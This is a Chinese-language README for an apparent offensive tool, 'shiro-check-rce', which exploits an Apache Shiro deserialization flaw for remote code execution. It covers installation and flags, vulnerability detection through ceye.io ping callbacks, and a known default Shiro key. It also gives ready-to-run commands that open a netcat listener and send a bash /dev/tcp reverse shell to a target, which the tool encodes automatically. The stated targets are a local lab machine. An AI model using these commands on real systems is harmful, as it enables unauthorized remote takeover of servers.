


# 0x00 前言

最近在做shiro反序列化漏洞复现，从网上也找了一堆复现文章和工具，但是这些工具用着都不太舒服，于是参考网上大佬们的工具，自己进行了一些简单的改良。

# 0x01 工具安装

本工具需要Python3环境，下载本工具后，安装Python第三方库即可使用。

```
git clone https://github.com/teamssix/shiro-check-rce.git
cd shiro-check-rce
pip3 install -r requirements.txt
```
由于国内GitHub下载较慢，且克隆本程序所有文件共有 52M 大小，因此建议国内用户到码云上进行下载。

本项目码云地址：[https://gitee.com/teamssix/shiro-check-rce](

# 0x02 工具介绍

```
   _____ __    _               ________              __      ____  ____________
  / ___// /_  (_)________     / ____/ /_  ___  _____/ /__   / __ \/ ____/ ____/
  \__ \/ __ \/ / ___/ __ \   / /   / __ \/ _ \/ ___/ //_/  / /_/ / /   / __/   
 ___/ / / / / / /  / /_/ /  / /___/ / / /  __/ /__/ ,<    / _, _/ /___/ /___   
/____/_/ /_/_/_/   \____/   \____/_/ /_/\___/\___/_/|_|  /_/ |_|\____/_____/   By TeamsSix

我的个人博客：teamssix.com
我的个人公众号：TeamsSix

-c ：输入要执行的命令
-h ：查看帮助
-k : 输入自定义的key，不输入此参数时将遍历尝试默认key
-t ：输入你的ceye.io的token，用于检测shiro漏洞是否存在，此选项需要配合 -c "ping your.ceye.io" 使用
-u ：指定URL

python3 shiro-check-rce.py (-c) <command> [-h] [-k] <key> [-t] <token> (-u) <url>
```

## 1、漏洞检测

该功能需要你有一个[http://ceye.io/](http://ceye.io/)的账号，在[http://ceye.io/profile](http://ceye.io/profile)页面，找到自己的`Identifier`值和`API Token`值。

使用 -t 和 -c 参数配合使用，即可调用默认key字典进行检测.

> 文中的 http://192.168.175.146:8080/ 为本地靶机，192.168.175.152:9527 为 nc 监听地址。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6
```



如果你有自己的key，也可以使用 -k 参数进行指定。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token} -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6 -k kPH+bIxk5D2deZiIxcaaaA==
```


## 2、反弹shell

这里我采用bash命令反弹到本地nc监听端口的方式，因此我这里需要先在本地建立一个 nc 监听端口。

```
nc -lvvp 9527
```

之后，执行反弹shell命令

```
bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1

示例：bash -i >& /dev/tcp/192.168.175.152/9527 0>&1
```

本工具会对输入命令进行识别，如果检测到用户输入了bash反弹shell命令，将会自动对命令进行编码，无需自己编码，避免了明明存在漏洞却因为编码问题而反弹不了shell的尴尬。

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1"

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1"
```


如果知道key的话，就直接 -k 指定 key 即可

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1" -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1" -k kPH+bIxk5D2deZiIxcaaaA==
```



# 0x03 注意事项

* 1、本程序需要 python3 环境以及 java环境
* 2、在进行漏洞检测时，-c 指定 ping 的 URL 和 -t 指定的 token 需要是同一 ceye 账户的。
* 3、在安装`pycryptodome`库时，可能会碰到一些问题，可以根据报错信息进行排查，或者到网上找寻相关资料


